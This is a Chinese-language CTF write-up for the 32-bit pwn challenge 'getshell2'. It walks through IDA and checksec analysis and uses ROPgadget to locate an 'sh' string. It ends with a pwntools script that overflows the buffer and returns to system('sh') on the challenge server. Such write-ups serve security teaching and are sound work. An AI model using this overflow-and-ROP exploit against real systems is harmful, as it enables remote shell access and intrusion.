

# [WUSTCTF 2020]getshell2

## 基本信息

- 题目链接:https://www.nssctf.cn/problem/2003

- 考点清单:栈溢出、ret2syscall

- 工具清单: IDA、ROPgadget、pwntools


## 一、看到什么

- service程序

    - IDA

    主函数一共俩函数`init()`与`vulnerable()`,其中vulnerable()存在read()函数,并且可读入的长度`36`大于预分配的空间`24`存在栈溢出

    

    - checksec

    查看文件保护,NX保护开启,无法栈内运行shellcode

    

    - file

    文件是32位的

    


      
## 二、想到什么解题思路

1. `32位`意味着在填充`ebp`指向的地址时,只需要填充`0x04`大小的字节即可,因为`32位`的栈帧大小为`0x04`字节,而`64位`则为`0x08`字节

2. `NX保护`开启,无法直接在栈上执行shellcode,依然选择寻找system函数与/bin/sh的地址

## 三、尝试过程与结果记录

1. 尝试寻找`system`函数地址
发现`ALT + T`搜索`/bin/sh`与`sh`时,IDA会提示找不到匹配项，但是在`shell`函数中找到了一个`call _system`，似乎可执行


`system()`函数调用的地址为`0x08048529`


2. 尝试寻找有关运行`/bin/sh`的函数

这里实在是找不到了，根据[ctf-基本rop](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#_5)提到的办法，因为有`NX`保护，不能写`shellcode`,所以我们利用程序中的 gadgets 来获得 shell。实际上我自己没有用过，查了一些教程，简单来说就是调用`sh`的环境变量


```sh
#第一次尝试找`/bin/sh`没有，所以放大下范围，查找`sh`
ROPgadget --binary service --string 'sh'
```


这里找到`sh`的地址`0x08048670`

现在有了`system`调用地址与`shell`的地址，接下来就是构造ROP链了

3. 构造ROP链

关于`call system`系统调用的入栈方式，查资料如下

||
|---|
|新的ebp地址|
|system函数返回地址|
|system调用参数(shell)|


所以构造方式

```
payload = 填充字符 + `system`地址 + `shell`地址 
```

```py
from pwn import *

l = remote('node5.anna.nssctf.cn',25627)

sys_addr = p32(0x08048529)

sh_addr = p32(0x08048670)

payload = (0x18+0x04)*b'A'+sys_addr+sh_addr

l.sendline(payload)

l.interactive()
```

## 总结

1. 注意```32位```与```64位```的区别,填充字符不同

2. 寻找`shell`的地址，可以利用`ROPgadget --binary service --string 'sh'`来查找


